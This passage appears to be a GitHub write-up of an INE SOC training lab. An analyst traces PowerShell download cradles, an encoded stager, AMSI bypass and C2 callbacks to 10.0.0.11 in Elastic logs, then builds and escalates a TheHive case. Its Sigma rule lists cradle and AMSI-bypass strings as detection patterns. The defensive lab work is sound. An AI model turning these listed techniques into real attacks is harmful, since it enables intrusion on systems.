

* Verify that all **3 TTPs** are listed under the **TTPs (3)** tab:



---

### Step 10: Creating Mandatory SOC-2 Tasks & Escalating Ownership

1. Navigate to the **Tasks** tab and click the **`+`** button to add investigation tasks for **SOC Level 2 (`soc2@syntrix.com`)**.



#### Task 1 — Host and User Context Review
* **Group:** `default`
* **Title:** `Context on Suspected Attacker-controlled Host and User Account`
* **Mandatory:** **`Yes`** (Toggle enabled)
* **Description:**
  ```text
  The observed PowerShell activity included repeated outbound connections from the workstation to the internal host 10.0.0.11 over ports 80, 8080, and 4444, executed under the user account sarah. Reviewing this host may help determine whether it shows indications of initial breach/foothold. Likewise, examining recent activity associated with the user account could provide insight into whether it was misused or compromised during the observed timeframe.
  ```
* **Assignee:** `SOC 2` (`soc2@syntrix.com`)

Click **Save and add another**.



#### Task 2 — Script and Payload Retrieval
* **Group:** `default`
* **Title:** `Context on Retrieved Scripts`
* **Mandatory:** **`Yes`** (Toggle enabled)
* **Description:**
  ```text
  PowerShell commands were used to obtain and execute scripts from an internal host. The retrieved content included obfuscated and encoded segments. Reviewing these scripts and performing deeper analysis may provide insight into their true nature and purpose.
  ```
* **Assignee:** `SOC 2` (`soc2@syntrix.com`)

Click **Confirm**.



Both mandatory tasks now appear in **Waiting** state assigned to **`SOC 2`**:



#### Final Escalation: Reassigning Case Owner to SOC 2
In the left-hand Case Summary sidebar, click on **Assignee** (currently `SOC 1`), change it to **`SOC 2`** (`soc2@syntrix.com`), and click **Save**:



Return to the **Cases** overview page (`http://localhost:9000/cases`) to confirm that **Case #1 (`Suspicious PowerShell Activity Triggering Remote Script Execution`)** is active with **`Tasks: 2`**, **`Observables: 8`**, **`TTPs: 3`**, and assigned to **`Syntrix/SOC 2`**:



---

## 🖼️ Complete 32-Screenshot Visual Verification Archive

| # | Phase / Checkpoint | Screenshot Preview |
| :-: | :--- | :--- |
| **01** | Step 1: Elastic Home Page (`http://localhost:5601`) |  |
| **02** | Step 2a: Navigating to Analytics $\rightarrow$ Discover |  |
| **03** | Step 2b: Selecting `syntrix*` Index Pattern |  |
| **04** | Step 2c: Setting Time Range (`Last 1 year` — 1,512 hits) |  |
| **05** | Step 3a: Filtering PowerShell EID 4104 (6 hits) |  |
| **06** | Step 3b: EID 4104 (`11:21:33.749`) — `haha.ps1` Download Cradle |  |
| **07** | Step 3c: EID 4104 (`11:21:33.991`) — `-nop -w hidden -e` Stager |  |
| **08** | Step 3d: EID 4104 (`11:21:34.158`) — Port `8080` Stage-2 URLs |  |
| **09** | Step 3e: EID 4104 (`11:21:34.301`) — Obfuscated AMSI Bypass |  |
| **10** | Step 4: Sysmon EID 1 (`11:21:33.293`) — `explorer.exe` $\rightarrow$ `powershell.exe` |  |
| **11** | Step 5a: Sysmon EID 3 (`11:21:35.229`) — Connection to `10.0.0.11:80` |  |
| **12** | Step 5b: Sysmon EID 3 (`11:21:36.264`) — Connection to `10.0.0.11:8080` |  |
| **13** | Step 5c: Sysmon EID 3 (`11:21:36.264`) — Connection to `10.0.0.11:4444` |  |
| **14** | Step 6: TheHive Login (`http://localhost:9000`) |  |
| **15** | Step 7a: Create Case $\rightarrow$ Empty Case |  |
| **16** | Step 7b: Filling Case Metadata (`HIGH`, `TLP:AMBER`, `PAP:AMBER`) |  |
| **17** | Step 7c: Case #1 Created Overview |  |
| **18** | Step 8a: Navigating to Observables Tab |  |
| **19** | Step 8b: Adding Observable 1 (`10.0.0.11`) |  |
| **20** | Step 8c: Adding Observable 2 (`PC01`) |  |
| **21** | Step 8d: All 8 Observables Registered in Case #1 |  |
| **22** | Step 9a: Navigating to TTPs Tab |  |
| **23** | Step 9b: Attaching `T1059.001` (PowerShell) |  |
| **24** | Step 9c: Attaching `T1027` (Obfuscated Files or Information) |  |
| **25** | Step 9d: Attaching `T1570` (Lateral Tool Transfer) |  |
| **26** | Step 9e: All 3 MITRE ATT&CK TTPs Confirmed |  |
| **27** | Step 10a: Navigating to Tasks Tab |  |
| **28** | Step 10b: Adding Mandatory Task 1 (Host & User Context) |  |
| **29** | Step 10c: Adding Mandatory Task 2 (Context on Retrieved Scripts) |  |
| **30** | Step 10d: Both Tasks Assigned to `SOC 2` |  |
| **31** | Step 10e: Escalating Case Assignee to `SOC 2` |  |
| **32** | Step 10f: Final Escalated Case in TheHive Cases Dashboard |  |

---

## 🛡️ Detection Engineering & SOC Containment Playbook

### 1. Production Sigma Rule: Obfuscated PowerShell Download Cradle & Multi-Stage Stager

```yaml
title: Suspicious PowerShell Encoded Download Cradle and Staged Execution
id: 9b4e7c12-4104-4e8a-9c01-5f8d10001150
status: production
description: Detects PowerShell script block logging (Event ID 4104) and process creation (Sysmon Event ID 1) involving EncodedCommand, hidden windows, WebClient DownloadString cradles, and AMSI bypass patterns.
author: Syntrix SOC Detection Engineering
date: 2025/11/17
references:
  - https://my.ine.com/course/soc-ticketing-reporting/7f70e83f-52fe-4234-a19d-e4acb30c5c43/lab/1a9c8af2-0a07-4900-85d7-ddc8b3075e22
logsource:
  product: windows
  category: ps_script
  definition: 'Requirements: Microsoft-Windows-PowerShell/Operational Event ID 4104 enabled'
detection:
  selection_scriptblock:
    EventID: 4104
    ScriptBlockText|contains:
      - 'New-Object Net.WebClient'
      - 'DownloadString('
      - ' -nop -w hidden -e '
      - 'AmsiUtils'
      - 'EnableScriptBlockLogging'
  condition: selection_scriptblock
falsepositives:
  - Legitimate administrative scripts downloading signed modules from internal repositories (validate source IP and URI)
level: high
tags:
  - attack.execution
  - attack.t1059.001
  - attack.defense_evasion
  - attack.t1027
  - attack.lateral_movement
  - attack.t1570
```

### 2. Tier-2 Incident Containment & Remediation Playbook
Once SOC Level 2 (`soc2@syntrix.com`) picks up the escalated case:
1. **Isolate Endpoint `PC01` (`10.0.0.50`):** Quarantine the host at the EDR/switch layer while preserving volatile memory for dump collection (to inspect the active PID `5492` callback on port `4444`).
2. **Investigate Internal Pivot Host `10.0.0.11`:** Audit how `10.0.0.11` came to host `haha.ps1` (Port 80), `/rJ8V0D4hquf54Q/2ZoeCggfq` (Port 8080), and the listener on Port `4444`.
3. **Contain User Account `sarah`:** Force a password reset, revoke active Kerberos TGTs/sessions, and audit logon events (`Event ID 4624/4625`) across the domain for `sarah`.
4. **Harden PowerShell Execution:** Enforce **Constrained Language Mode (CLM)** via AppLocker/WDAC, block outbound PowerShell connections at the Windows Filtering Platform (WFP) firewall, and ensure **Protected Event Logging (PEL)** is enabled.

---

## 🐍 Python Forensic Automation Script

Included directly in this folder is **[`analyze_powershell_telemetry.py`](./analyze_powershell_telemetry.py)**, a standalone Python forensic utility that:
* Decodes the exact UTF-16LE Base64 `-EncodedCommand` strings captured in Sysmon Event ID 1 and PowerShell Event ID 4104.
* Reconstructs the chronological 4-stage execution timeline on `PC01`.
* Exports the complete, structured **TheHive v5 Case + 8 Observables + 3 MITRE TTPs + 2 Tasks** JSON bundle.

Run it locally with:
```bash
python analyze_powershell_telemetry.py
```

---

## 🏁 Conclusion & References

### Conclusion
The analysis confirmed that the observed PowerShell activity on workstation **`PC01` (`10.0.0.50`)** was highly suspicious and indicative of unauthorized multi-stage script execution. Multiple logs across **PowerShell Operational (`Event ID 4104`)** and **Sysmon (`Event ID 1` & `Event ID 3`)** demonstrated that PowerShell was used to retrieve and run remote scripts in memory (`haha.ps1` and `/rJ8V0D4hquf54Q/2ZoeCggfq`) while applying Base64 encoding, hidden window flags, and AMSI/logging bypass obfuscation. Outbound network connections to suspected attacker-controlled host **`10.0.0.11`** across ports **`80`**, **`8080`**, and **`4444`** under user account **`sarah`** confirmed active staging and C2 callback behavior. All **8 observables**, **3 MITRE ATT&CK TTPs**, and **2 mandatory Tier-2 tasks** have been documented in **TheHive** and formally escalated to **`SOC 2` (`soc2@syntrix.com`)**.

### Official References
* [TheHive Official Documentation Overview](https://docs.strangebee.com/thehive/overview/)
* [MISP Project Taxonomies (TLP & PAP Classification)](https://www.misp-project.org/taxonomies.html)
* [MITRE ATT&CK — T1059.001: Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)
* [MITRE ATT&CK — T1027: Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027/)
* [MITRE ATT&CK — T1570: Lateral Tool Transfer](https://attack.mitre.org/techniques/T1570/)
* [INE Security Lab — SOC-1: Analyzing Unusual PowerShell Execution](https://my.ine.com/course/soc-ticketing-reporting/7f70e83f-52fe-4234-a19d-e4acb30c5c43/lab/1a9c8af2-0a07-4900-85d7-ddc8b3075e22)
